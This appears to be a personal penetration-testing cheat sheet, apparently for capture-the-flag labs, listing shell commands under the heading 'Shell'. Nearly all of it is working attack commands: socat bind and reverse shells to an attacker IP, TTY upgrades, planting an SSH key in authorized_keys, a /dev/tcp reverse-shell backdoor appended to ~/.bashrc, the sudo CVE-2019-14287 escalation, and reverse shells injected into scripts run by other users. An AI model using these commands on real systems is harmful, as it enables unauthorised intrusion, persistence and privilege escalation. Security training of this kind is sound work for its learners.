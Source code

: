 # Shell ✅
```bash
/bin/bash -ip
perl -e 'exec "/bin/bash";'
python3 -c 'import pty;pty.spawn("/bin/bash")'
---------------------------------------------------------------------
CTRL + Z
stty raw -echo;fg
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 52 columns 209 
---------------------------------------------------------------------
socat TCP-L:<port> # in our system
socat TCP-L:<port> FILE:`tty`,raw,echo=0  # in our system

socat TCP:<local-ip>:<local-port> EXEC:"bash -li" # in our system for linux
socat TCP:<local-ip>:<local-port> EXEC:powershell.exe,pipes # in our system for windows

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane # in target system
---------------------------------------------------------------------
# in target
mkdir -p ~/.ssh/
ssh-keygen
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGQvOtGg1iFei0La62IoJcnK+JxlCF/E9XRRbox86Ufk mobin@solcoteh' >> ~/.ssh/authorized_keys
# transfer id_rsa target file to our kali 
# in our kali 
chmod 600 id_rsa 
ssh user@10.10.10.10 -i id_rsa  
---------------------------------------------------------------------
echo 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1' >> ~/.bashrc # backdoor in target
---------------------------------------------------------------------
sudo echo "10.10.10.10 webenum.thm" >> /etc/hosts
sudo echo "10.10.10.10 mysubdomain.webenum.thm" >> /etc/hosts
---------------------------------------------------------------------
sudo -u#-1 /bin/bash # CVE-2019-14287
sudo -u silvio /usr/bin/zip # run with another user
sudo -u jordan PYTHONPATH=/tmp /opt/scripts/flag.py # run with PYTHONPATH 

echo 'import pty;pty.spawn("/bin/bash")' >> /tmp/shop.py
echo "bash -i >& /dev/tcp/10.9.3.23/4444 0>&1" >> /opt/scripts/flag.sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```
[full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/full-ttys)

[spawning-tty-shells](https://hideandsec.sh/books/cheatsheets-82c/page/spawning-tty-shells)
